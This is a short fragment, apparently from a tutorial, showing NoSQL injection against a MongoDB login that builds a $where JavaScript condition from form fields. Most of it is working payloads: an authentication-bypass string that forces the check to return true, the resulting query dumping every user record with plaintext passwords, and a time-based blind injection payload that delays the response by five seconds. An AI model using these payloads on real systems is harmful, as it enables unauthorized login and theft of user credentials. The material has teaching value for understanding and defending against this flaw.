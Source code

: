 
```
username=1&amp;password=1';return true//
或
username=1&amp;password=1';return true;var a='1

```

> 



```

array(
    '$where' =&gt; "
    function() { 
		var username = '1';
		var password = '1';return true;var a='1';
		if(username == 'admin' &amp;&amp; password == '123456'){
			return true;
		}else{
			return false;
		}
	}
")

```

> 



```

db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' &amp;&amp; password == '123456'){ return true; }else{ return false; }}"})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
{ "_id" : ObjectId("61445fd0a7a3dc15f3ac9c92"), "username" : "Gyan", "password" : "20080826" }
{ "_id" : ObjectId("61445fe1a7a3dc15f3ac9c93"), "username" : "guest", "password" : "guest" }
{ "_id" : ObjectId("61445fe7a7a3dc15f3ac9c94"), "username" : "demo", "password" : "demo" }
{ "_id" : ObjectId("61445ff9a7a3dc15f3ac9c95"), "username" : "Tom", "password" : "123456" }

```

> 



> 



```
username=1&amp;password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date&lt;5000); return Math.max();})();var a='1

```
